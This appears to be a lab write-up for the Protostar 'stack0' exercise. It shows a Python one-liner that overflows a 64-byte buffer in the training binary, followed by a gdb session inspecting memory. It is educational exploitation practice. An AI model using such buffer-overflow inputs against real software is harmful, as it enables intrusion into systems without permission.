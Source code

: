 ```
you have changed the 'modified' variable

$ python -c 'print "A"*(64)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

$ python -c 'print "A"*(64)' | /opt/protostar/bin/stack0
Try again?

$ python -c 'print "A"*(65)' | /opt/protostar/bin/stack0
you have changed the 'modified' variable

$ printf "%02X\n" 65
41

$ printf "%d\n" 0x5C
92
```

## Debugger
```
(gdb) set disassembly-flavor intel

(gdb) file stack0
Reading symbols from /opt/protostar/bin/stack0...done.


(gdb) disas main
Dump of assembler code for function main:
0x08048411 <main+29>:	mov    0x5c(%esp),%eax

(gdb) r

(gdb) frame
#0  _IO_puts (str=0x8048529 "Try again?") at ioputs.c:37
37	in ioputs.c

```
##### Breakpoint
```

(gdb) b puts
Breakpoint 1 at 0xb7ef4789: file ioputs.c, line 37.

(gdb) c

(gdb) info locals
modified = 0
buffer = "\377\377\377\377\364\357\377\267K\202\004\b\001\000\000\000 \375\377\277&\006\377\267\260\372\377\267(\033\376\267\364\177\375\267\000\000\000\000\000\000\000\000\070\375\377\277i\317\330\301y9\231\353\000\000\000\000\000\000\000"


(gdb) info proc mappings
process 1581
cmdline = '/opt/protostar/bin/stack0'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack0'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack0
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack0
	.............
```